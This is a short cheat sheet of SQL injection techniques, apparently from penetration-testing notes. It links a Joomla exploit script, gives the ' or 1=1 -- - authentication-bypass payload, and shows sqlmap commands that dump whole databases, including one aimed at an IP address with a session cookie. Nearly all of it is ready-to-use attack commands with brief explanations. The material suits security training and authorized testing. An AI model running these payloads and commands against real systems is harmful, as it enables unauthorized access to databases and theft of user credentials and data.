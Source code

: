 # SQL Commands
Commands and techniques for SQL injection and database enumeration

## Useful Links
- [Joomla Exploit Script](https://raw.githubusercontent.com/stefanlucas/Exploit-Joomla/master/joomblah.py)

## Basic SQL query
```sql copy
SELECT * FROM users WHERE username = :username AND password = :password
```
- Retrieves user data from the database with provided credentials.

## SQL injection (bypass authentication)
```sql copy
SELECT * FROM users WHERE username = admin AND password = ' or 1=1 -- -
```
- Bypasses authentication by injecting a true condition.
- `' or 1=1 -- -`: Makes the query always true and comments out the rest.

## SQLmap with request file
```bash copy
sqlmap -r request.txt --dbms=mysql --dump
```
- Automates SQL injection using a captured HTTP request.
- `-r request.txt`: Uses saved HTTP request file.
- `--dbms=mysql`: Specifies MySQL database.
- `--dump`: Dumps database contents.

## SQLmap with URL and cookie
```bash copy
sqlmap http://10.10.10.10/admin?user=3 --cookie='token=[Enter Cookie]' --technique=U --delay=2 --dump
```
- Performs SQL injection on a specific URL with a cookie.
- `--cookie='token=[Enter Cookie]'`: Specifies authentication cookie.
- `--technique=U`: Uses UNION-based injection.
- `--delay=2`: Adds 2-second delay between requests.
- `--dump`: Dumps database contents.